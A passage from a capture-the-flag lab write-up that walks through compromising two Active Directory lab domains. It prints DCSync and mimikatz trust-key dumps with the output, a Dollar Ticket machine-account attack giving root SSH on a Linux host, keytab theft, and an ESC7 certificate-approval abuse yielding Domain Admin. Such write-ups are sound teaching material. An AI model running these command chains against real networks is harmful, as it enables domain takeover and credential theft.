

We also performed a DCSync dump with the new privileges :

```bash
secretsdump.py -k -no-pass -dc-ip 10.3.10.10 TROY.LAB/nicolede@ECKMUL.troy.lab
```

And finally, here is the chain that allowed us to compromise the first domain !!!



---

## DARSHAN.LAB

### 13. Enumerating the domain trust

From the compromised TROY domain controller, we enumerated the trust relationship :

```powershell
*Evil-WinRM* PS C:\windows\tasks> ./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::trust /patch" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

548	{0;000003e7} 1 D 30755     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0138a7b3} 0 D 20583066  	TROY\nicolede	S-1-5-21-144421538-1194876406-3640771324-1109	(17g,26p)	Primary
 * Thread Token  : {0;000003e7} 1 D 20616870  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # lsadump::trust /patch

Current domain: TROY.LAB (TROY / S-1-5-21-144421538-1194876406-3640771324)

Domain: DARSHAN.LAB (DARSHAN / S-1-5-21-4216803188-735931292-2791898256)
 [  In ] TROY.LAB -> DARSHAN.LAB

 [ Out ] DARSHAN.LAB -> TROY.LAB
    * 9/17/2026 12:06:42 PM - CLEAR   - 4c 00 4b 00 33 00 51 00 7b 00 4e 00 7a 00 54 00 24 00 73 00 39 00 32 00 2a 00 36 00 71 00
	* aes256_hmac       7067a0955547eca00e232b262ef6ca4c1b0be6c2b694d1e0bf1880857d9da44d
	* aes128_hmac       083ab8f4332ebd5c169bfe7f14e9604a
	* rc4_hmac_nt       4775d3f74564fe9d119caf855399f137

 [ In-1] TROY.LAB -> DARSHAN.LAB

 [Out-1] DARSHAN.LAB -> TROY.LAB
    * 9/17/2026 12:06:42 PM - CLEAR   - 4c 00 4b 00 33 00 51 00 7b 00 4e 00 7a 00 54 00 24 00 73 00 39 00 32 00 2a 00 36 00 71 00
	* aes256_hmac       7067a0955547eca00e232b262ef6ca4c1b0be6c2b694d1e0bf1880857d9da44d
	* aes128_hmac       083ab8f4332ebd5c169bfe7f14e9604a
	* rc4_hmac_nt       4775d3f74564fe9d119caf855399f137


mimikatz(commandline) # exit
```
```powershell
*Evil-WinRM* PS C:\Users> get-adtrust -filter *


Direction               : Outbound
DisallowTransivity      : False
DistinguishedName       : CN=darshan.lab,CN=System,DC=troy,DC=lab
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : darshan.lab
ObjectClass             : trustedDomain
ObjectGUID              : abf663db-5587-4d4e-8a10-dceb63f1e11a
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=troy,DC=lab
Target                  : darshan.lab
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

The connection is `OUTBOUND` only `rc4 and aes` are set to false - So we need to decode and use the password to obtain a TGT as `TROY$`

```bash
getTGT.py -dc-ip 10.3.10.20 'DARSHAN.LAB'/'TROY$':'LK3Q{NzT$s92*6q'
```

### 14. Finding the path to ORAZUR

With the `TROY$` ticket we started by looking at the resources exposed in the DARSHAN domain - One of the readable files was `LISEZMOI-orazur.txt` :

```text
ADMIN NOTE (Darshanide empire):
ORAZUR is our Linux server, don't forget to administer it too before go-live.
```

The note immediately pointed us toward `ORAZUR`, the only Linux host in the lab - The machine only exposed SSH, and the information collected with BloodHound described it as a domain-joined Linux server administered through Kerberos SSO.

This combination was interesting :
```
- ORAZUR was joined to `DARSHAN.LAB`
- SSH accepted Kerberos through GSSAPI
- the host used the usual MIT Kerberos / SSSD principal-to-local-user translation
- the trust account gave us an authenticated identity capable of creating a computer account in DARSHAN
```

This made us think about a [Dollar Ticket attack](https://www.thehacker.recipes/ad/movement/kerberos/principal-confusion/dollar-ticket).

Despite its name, a Dollar Ticket is not a forged ticket like a Golden or Silver Ticket - It is a principal-name confusion issue between Active Directory machine accounts and the way some Linux Kerberos stacks map domain principals to local Unix usernames.

Active Directory machine accounts conventionally end with a dollar sign - A computer named `root` is therefore stored in AD as `root$`. On a vulnerable Linux setup, the MIT Kerberos `auth_to_local` mapping can remove that trailing `$` when translating the authenticated principal into a local username :

```text
root$@DARSHAN.LAB  ➜  root
```

The Kerberos ticket itself remains valid and belongs to the real AD machine account - The problem happens when the Linux service authorizes the session using only the translated name instead of strictly validating the identity and PAC carried by the ticket. 

If SSH accepts GSSAPI and maps `root$` to the local `root` account, controlling the machine account effectively gives a root SSH session.

The attack therefore required four conditions, all of which were present in the lab :
```
- [x] We could create a machine account in DARSHAN.
- [x] We knew the password of the machine account we created.
- [x] ORAZUR accepted SSH authentication through GSSAPI.
- [x] Its Kerberos mapping stripped the trailing `$` and did not reject the machine-account PAC.
```

### 15. Exploiting the Dollar Ticket

We created a machine account whose name matched the privileged local Unix account we wanted to reach - Supplying `root` to `addcomputer.py` created the AD `sAMAccountName` `root$` :

```bash
addcomputer.py -method SAMR -computer-pass TestPassword321 -computer-name 'root' 'DARSHAN.LAB/troy$' -dc-host DARSHANIDE.darshan.lab -k -no-pass

[*] Successfully added machine account root$ with password TestPassword321.
```

Because we selected the password ourselves, we could request a legitimate TGT for the new machine account :

```bash
getTGT.py -dc-ip 10.3.10.20 'DARSHAN.LAB/root$:TestPassword321'

export KRB5CCNAME=root\$.ccache
```

The default principal was `root$@DARSHAN.LAB` - We then requested the SSH service ticket for ORAZUR :

```bash
kvno host/ORAZUR.darshan.lab
```

Finally, we forced SSH to use GSSAPI and disabled every password or public-key fallback :

```bash
ssh -o GSSAPIAuthentication=yes -o PreferredAuthentications=gssapi-with-mic -o PubkeyAuthentication=no -o PasswordAuthentication=no -l root ORAZUR.darshan.lab
```

SSH presented the Kerberos service ticket belonging to `root$@DARSHAN.LAB` - ORAZUR translated that principal to the local username `root`, which opened a root shell without asking for a password.


### 16. Recovering the ORAZUR keytab

Once connected as root, we inspected the Kerberos keytab installed on ORAZUR :

```bash
klist -kte /etc/krb5.keytab
```

A keytab is a file containing long-term Kerberos keys used by a service or a machine to authenticate without storing a clear-text password. In this case, `/etc/krb5.keytab` contained the keys of the domain machine account `ORAZUR$@DARSHAN.LAB`.

We left the SSH session and copied the file to our machine - The active `root$` ticket was still used for the GSSAPI authentication performed by SCP :

```bash
scp -o GSSAPIAuthentication=yes -o PreferredAuthentications=gssapi-with-mic root@ORAZUR.darshan.lab:/etc/krb5.keytab ./orazur.keytab
```



```bash
getTGT.py -dc-ip 10.3.10.20 'DARSHAN.LAB/ORAZUR$' -aesKey e0f3fbfca429957a4aeacb7b061c60a6fce7025256c7cd0ac3d8a16065ab8e22

export KRB5CCNAME=orazur.ccache

nxc smb DARSHANIDE.darshan.lab -u 'ORAZUR$' --use-kcache
```

Therefore, here is the chain that allowed us to obtain our first valid account in the darshan.lab domain & to compromise the linux machine



### 17. Enumerating AD CS in DARSHAN

At this point, our active Kerberos identity was `ORAZUR$`, obtained from the Linux keytab - We used this ticket to enumerate the AD CS deployment with Certipy :

```bash
export KRB5CCNAME=orazur.ccache

certipy find -k -no-pass -u 'ORAZUR$@DARSHAN.LAB' -dc-ip 10.3.10.20 -dc-host DARSHANIDE.darshan.lab -target DARSHANIDE.darshan.lab -enabled -vulnerable -stdout
```

The CA enumeration returned the following result :

```text
Certificate Authorities
  0
    CA Name                             : DARSHAN-CA
    DNS Name                            : DARSHANIDE.darshan.lab
    Certificate Subject                 : CN=DARSHAN-CA, DC=darshan, DC=lab
    Certificate Serial Number           : 20EA96AA2848D291456820DBCC87B7A3
    Certificate Validity Start          : 2026-09-17 16:05:25+00:00
    Certificate Validity End            : 2031-09-17 16:15:24+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : DARSHAN.LAB\Administrators
      Access Rights
        Enroll                          : DARSHAN.LAB\Authenticated Users
        ManageCa                        : DARSHAN.LAB\Administrators
                                          DARSHAN.LAB\Domain Admins
                                          DARSHAN.LAB\Enterprise Admins
        ManageCertificates              : DARSHAN.LAB\Administrators
                                          DARSHAN.LAB\Domain Admins
                                          DARSHAN.LAB\Enterprise Admins
                                          DARSHAN.LAB\ORAZUR
    [+] User Enrollable Principals      : DARSHAN.LAB\Authenticated Users
    [+] User ACL Principals             : DARSHAN.LAB\ORAZUR
    [!] Vulnerabilities
      ESC7                              : User has dangerous permissions.
Certificate Templates                   : [!] Could not find any certificate templates
```

The important line was not `ManageCa` - `ORAZUR$` did not have that permission - Its dangerous right was `ManageCertificates`, also known as the Certificate Manager right.

Two other CA-level values were worth clarifying. `User Specified SAN: Disabled` meant that the CA-wide `EDITF_ATTRIBUTESUBJECTALTNAME2` setting was not enabled - it did not prevent a template configured with `EnrolleeSuppliesSubject` from carrying an identity in a properly formed request. 

Likewise, `Request Disposition: Issue` was the CA default but a template with `PendAllRequests` could still override that behavior and force its own requests into the pending queue.

Those two permissions are often grouped under ESC7, but they do not provide the same primitive :
```text
- `ManageCa` allows an attacker to modify CA-level settings, roles and some CA properties
- `ManageCertificates` allows a certificate manager to approve, deny and manage certificate requests submitted to the CA
```
This made our ESC7 path slightly less direct than the usual `ManageCA` abuse - `ORAZUR$` could not simply change the CA configuration and immediately request any certificate it wanted. 

Instead, we needed another controlled principal to submit a valid request through an enabled template - That request had to be accepted by the template, placed in the pending queue and then approved by `ORAZUR$`.

The first Certipy run found the vulnerable CA ACL but did not return its certificate templates, as shown by `Could not find any certificate templates` - We therefore switched to the `root$` ticket and performed a second LDAP-backed enumeration with another authenticated DARSHAN principal :

```bash
export KRB5CCNAME=root\$.ccache

certipy find -k -no-pass -u 'root$@DARSHAN.LAB' -dc-ip 10.3.10.20 -dc-host DARSHANIDE.darshan.lab -target DARSHANIDE.darshan.lab -enabled -stdout
```

This revealed one particularly interesting template named `DarshanLogin` :

```text
Certificate Templates
  0
    Template Name                       : DarshanLogin
    Display Name                        : DarshanLogin
    Certificate Authorities             : DARSHAN-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PendAllRequests
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : True
    Requires Key Archival               : False
    RA Application Policies             : msPKI-Asymmetric-Algorithm`PZPWSTR`ECDSA_P256`msPKI-Hash-Algorithm`PZPWSTR`SHA256`msPKI-Key-Usage`DWORD`16777215`msPKI-Symmetric-Algorithm`PZPWSTR`AES`msPKI-Symmetric-Key-Length`DWORD`128`
    Authorized Signatures Required      : 0
    Schema Version                      : 4
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 256
    Template Created                    : 2026-09-17T16:16:30+00:00
    Template Last Modified              : 2026-09-17T16:16:32+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : DARSHAN.LAB\Authenticated Users
      Object Control Permissions
        Owner                           : DARSHAN.LAB\Enterprise Admins
        Full Control Principals         : DARSHAN.LAB\Domain Admins
                                          DARSHAN.LAB\Local System
                                          DARSHAN.LAB\Enterprise Admins
        Write Owner Principals          : DARSHAN.LAB\Domain Admins
                                          DARSHAN.LAB\Local System
                                          DARSHAN.LAB\Enterprise Admins
        Write Dacl Principals           : DARSHAN.LAB\Domain Admins
                                          DARSHAN.LAB\Local System
                                          DARSHAN.LAB\Enterprise Admins
    [+] User Enrollable Principals      : DARSHAN.LAB\Authenticated Users
```

Several properties made `DarshanLogin` perfect for the approval workflow we needed :
```text
- it was enabled on `DARSHAN-CA`
- every authenticated principal had enrollment rights, so our controlled `root$` account could submit a request
- the `Client Authentication` EKU made the resulting certificate usable for authentication
- `EnrolleeSuppliesSubject` allowed the requester to place an identity inside the CSR instead of being forced to use the identity of `root$`
- `Authorized Signatures Required: 0` meant that no enrollment-agent signature was required
- `PendAllRequests` and `Requires Manager Approval` forced every request into the pending queue
```

The last property looked like a protection but it was exactly what connected the template to our ESC7 permission - A normal requester could submit a certificate request but could not make the CA issue it. 

`ORAZUR$`, on the other hand, could approve that pending request because it had `ManageCertificates`.

There was one more unusual constraint - The `RA Application Policies` field explicitly required :

```text
msPKI-Asymmetric-Algorithm = ECDSA_P256
msPKI-Hash-Algorithm       = SHA256
```

Despite the confusing `Minimum RSA Key Length` field printed by the enumeration, this template expected an ECDSA P-256 public key - Certipy normally generated an RSA key for a certificate request and the CA rejected that request because it did not satisfy the template's cryptographic policy.


We therefore needed a Certipy version capable of generating an ECDSA CSR - [Pull request `#373`](https://github.com/ly4k/Certipy/pull/373) added the `-key-type ecdsa` and `-curve P256` options we needed :

```bash
git clone https://github.com/ly4k/Certipy.git certipy-pr373

cd certipy-pr373

git fetch origin pull/373/head:pr-373

git checkout pr-373

python3 -m venv .venv

source .venv/bin/activate

pip install -e .
```

### 18. Submitting the pending request as `root$`

The attack used two different controlled accounts with two different roles :

```text
root$    -> submits the certificate request and owns the private key
ORAZUR$  -> approves the pending request with ManageCertificates
```

We used `root$` as the requester because it was a controlled authenticated principal and therefore had enrollment rights on `DarshanLogin` - The account authenticating to the CA was still `root$` but `EnrolleeSuppliesSubject` allowed us to request a certificate containing the identity of the domain Administrator :

```text
Authenticated requester : DARSHAN\root$
Requested UPN           : Administrator@darshan.lab
Requested SID           : S-1-5-21-4216803188-735931292-2791898256-500
```

We submitted the request with the required ECDSA P-256 key :

```bash
export KRB5CCNAME=root\$.ccache

./.venv/bin/certipy req -k -no-pass -u 'root$@DARSHAN.LAB' -target DARSHANIDE.darshan.lab -target-ip 10.3.10.20 -dc-ip 10.3.10.20 -dc-host DARSHANIDE.darshan.lab -ca DARSHAN-CA -template DarshanLogin -upn Administrator@darshan.lab -sid S-1-5-21-4216803188-735931292-2791898256-500 -key-type ecdsa -curve P256 -out darshan-admin-ecc
```

The request now satisfied the template's cryptographic requirements - The CA accepted it but did not immediately issue the certificate because `PendAllRequests` was enabled :

```text
[*] Request ID is 32
[!] Certificate request is pending approval
[*] Saving private key to 'darshan-admin-ecc.key'
```

This distinction was important - The CA had only stored the public CSR.

The ECDSA private key remained in `darshan-admin-ecc.key` on our machine and belonged to the requester side of the attack - We needed to preserve it until the certificate was approved and retrieved.

### 19. Approving the request as `ORAZUR$`

Using the request ID returned by the CA, we approved request `32` :

```bash
export KRB5CCNAME=orazur.ccache

./.venv/bin/certipy ca -k -no-pass -u 'ORAZUR$@DARSHAN.LAB' -target DARSHANIDE.darshan.lab -target-ip 10.3.10.20 -dc-ip 10.3.10.20 -dc-host DARSHANIDE.darshan.lab -ca DARSHAN-CA -issue-request 32
```

This was the actual ESC7 action - `ORAZUR$` did not generate the request and did not receive the private key - it only used its `Certificate Manager` right to move an attacker-controlled request from `Pending` to `Issued`.

### 20. Retrieving the Administrator certificate

After approval, we switched back to the original requester & we retrieved the issued certificate using the same request ID :

```bash
export KRB5CCNAME=root\$.ccache

./.venv/bin/certipy req -k -no-pass -u 'root$@DARSHAN.LAB' -target DARSHANIDE.darshan.lab -target-ip 10.3.10.20 -dc-ip 10.3.10.20 -dc-host DARSHANIDE.darshan.lab -ca DARSHAN-CA -retrieve 32 -out darshan-admin-ecc
```

The returned certificate was then combined with the ECDSA private key saved when the request was submitted :

```bash
openssl pkcs12 -export -inkey darshan-admin-ecc.key -in darshan-admin-ecc.crt -out darshan-admin-ecc.pfx -passout pass:
```

The final PFX contained both sides required for authentication :

```text
Certificate identity : Administrator@darshan.lab
Object SID           : S-1-5-21-4216803188-735931292-2791898256-500
Private key          : ECDSA P-256 key generated by root$
```

The complete request and approval chain was therefore :

```text
root$ authenticates to DARSHAN-CA
        |
        | submits an ECDSA P-256 CSR through DarshanLogin
        | requested identity = Administrator / RID 500
        v
request 32 enters the Pending queue
        |
        | ORAZUR$ uses ManageCertificates
        v
request 32 becomes Issued
        |
        | root$ retrieves the issued certificate
        v
Administrator certificate + locally retained ECDSA private key
```

### 21. Using the ECDSA certificate over Schannel

The Certipy PR added ECDSA support to the CSR generation path but the normal `certipy auth` PKINIT path did not handle this ECDSA certificate correctly in our setup - Instead of converting the certificate into a TGT, we used it directly for TLS client authentication against LDAPS - this is Schannel authentication :

```bash
./.venv/bin/certipy auth -pfx darshan-admin-ecc.pfx -username Administrator -domain darshan.lab -dc-ip 10.3.10.20 -ldap-shell
```

The LDAP shell confirmed the authenticated identity :

```text
u:DARSHAN\Administrator
```

We used the Administrator LDAP session to add our controlled machine account to Domain Admins :

```text
add_user_to_group root$ "Domain Admins"
```

### 22. Refreshing the `root$` TGT

The TGT currently stored for `root$` had been issued before the group modification - Its PAC therefore did not contain the new Domain Admin membership.

```bash
getTGT.py -dc-ip 10.3.10.20 'DARSHAN.LAB/root$:TestPassword321'

export KRB5CCNAME=root\$.ccache

nxc smb DARSHANIDE.darshan.lab -u 'root$' --use-kcache

DARSHAN.LAB\root$ from ccache (Pwn3d!)
```


At this point, `root$` had full control of DARSHAN and we compromised the second domain, so we compromised the entire lab !!!



If you have any questions, you can dm me on twitter or on discord at : ‘ethicxz.’

---

## Conclusion

A big thank you to the organizers for this lab, it was really awesome ! I loved doing it

If you want more workshops like this - I recommend checking out [Kenolab](https://kenolab.eu) :))
